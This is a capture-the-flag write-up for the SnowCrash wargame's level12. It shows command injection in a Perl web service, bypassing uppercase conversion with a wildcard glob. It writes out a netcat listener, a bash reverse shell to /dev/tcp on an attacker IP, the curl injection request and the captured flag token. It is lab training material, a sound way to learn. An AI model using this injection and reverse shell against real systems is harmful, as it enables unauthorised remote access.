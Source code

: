 - In `/home/user/level12` we find the Perl script `level12.pl` owned by `flag12` which shows a service running on localhost port 4646 that accepts an x and y parameter. Part of the code block shows that the x parameter contents are all turned into uppercase and if there is any whitespace or multiple words, only the first word is kept - everything after the space is stripped. The final string is passed into a string literal and executed.

```
<snip>
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
<snip>
```

- As the x parameter is passed into an egrep command and surrounded by double quotes, we should be able to carry out command injection by passing a payload into the x parameter. However, because the string we pass in is stripped of all words except the first one it will not be execute a payload such as a reverse shell script. Nor can we directly use the `getflag` payload because the output of the command will not be printed out to the screen. Therefore we can try to prepare a script with a reverse shell payload, and pass the script path as the payload to execute it.

- First start a listener on our attack machine
```
┌──(kali㉿kali)-[~/Desktop/SnowCrash]
└─$ nc -lnvp 4444              
listening on [any] 4444 ...
```

- Then on the target machine we need to prepare a script to execute a reverse shell. The script contents will be the payload `/bin/bash -c '/bin/sh -i >& /dev/tcp/<attackerIp>/4444 0>&1'` .  

- NOTE - The tricky thing here is that the Perl script will capitalize the string we pass into the x parameter so  if we create a script in /tmp/script it will become /TMP/SCRIPT. This wouldn't be a problem if we had permission to create a new folder in the root `/` of the drive but we are not permitted to. Therefore we will use a technique called globbing when we craft the payload for the x parameter.
-
```
level12@SnowCrash:/$ ls
bin   cdrom  etc   initrd.img  media  opt   rofs  run   selinux  sys  usr  vmlinuz
boot  dev    home  lib         mnt    proc  root  sbin  srv      tmp  var
level12@SnowCrash:/$ mkdir /TMP
mkdir: cannot create directory `/TMP': Permission denied
```

- First create a script in /tmp called `SCRIPT` and paste the reverse shell payload inside of it. Set the permissions to executable.
```
level12@SnowCrash:/$ cd /tmp
level12@SnowCrash:/tmp$ vim SCRIPT
level12@SnowCrash:/tmp$ cat SCRIPT
/bin/bash -c '/bin/sh -i >& /dev/tcp/10.13.200.129/4444 0>&1'
level12@SnowCrash:/tmp$ chmod +x SCRIPT
level12@SnowCrash:/tmp$ ls -d /tmp/SCRIPT
/tmp/SCRIPT
```

- We see the full path to the script is /tmp/SCRIPT which will become /TMP/SCRIPT once the script runs. However, thanks to globbing which uses `*` wildcard to match and expand any string in shell. So if we run `/*/SCRIPT` it will expand all directories at root level, no matter what they are called, and searches each directory for `SCRIPT`. We execute the curl command below to run the `SCRIPT` we prepared.

```
level12@SnowCrash:/tmp$ curl localhost:4646/?x="$(/*/SCRIPT)"
```

- The script inside `/tmp/SCRIPT` is executed and a reverse shell is obtained on the attack machine. Running `getflag` obtains the token

```
┌──(kali㉿kali)-[~/Desktop/SnowCrash]
└─$ nc -lnvp 4444              
listening on [any] 4444 ...
connect to [10.13.200.129] from (UNKNOWN) [10.13.200.131] 58208
/bin/sh: 0: can't access tty; job control turned off
$ whoami
flag12
$ getflag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

- Use the token to authenticate to `level13`

```
level12@SnowCrash:/tmp$ su level13
Password: 
level13@SnowCrash:~$ 
```